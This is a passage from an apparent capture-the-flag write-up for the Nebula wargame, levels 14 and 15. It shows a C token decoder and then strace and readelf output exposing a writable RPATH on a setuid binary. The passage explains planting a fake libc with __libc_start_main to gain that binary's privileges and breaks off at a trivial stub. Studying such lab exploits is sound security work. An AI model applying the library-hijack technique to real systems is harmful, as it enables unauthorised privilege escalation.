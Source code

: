 ```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
	int len = strlen(argv[1]);
	int i;
	for(i = 0; i < len; i++)
	{
		argv[1][i] -= i;
	}
	printf("Token is : %s\n", argv[1]);
	return 0;
}
```

Then, `./exploit $(cat /home/flag14/token)` is enough to get the token.

## Level 15

Following the advice, we see some interesting output when *strace*-ing the flag15 binary:

```bash
[...]
open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
[...]
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY) = 3
```

The binary first tries to look for the libc shared library in `/var/tmp/flag15` (in which we have write access, btw), but eventually loads it from `/lib/i386-linux-gnu/libc.so.6`. This is confirmed by reading the dynamic section in the ELF:

```bash
level15@nebula:~$ readelf -d /home/flag15/flag15 

Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
```

Thus, if we can manage to put a "fake" libc library here, we would be able to execute code with `flag15` permission, as the binary flag has setuid bit set.

In my first attempts, I used GDB to check which function the binary is calling, and it showed that the function `puts()` of the libc library was used, so I wanted to put my exploit in the definition of this method. However, the library cannot be loaded if the method `__libc_start_main` is not defined, thus we can directly put our exploit here. We can try to see if the linking process works with just a trivial definition. Here is our `libc.c` file :

```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
	return 0;
}
```
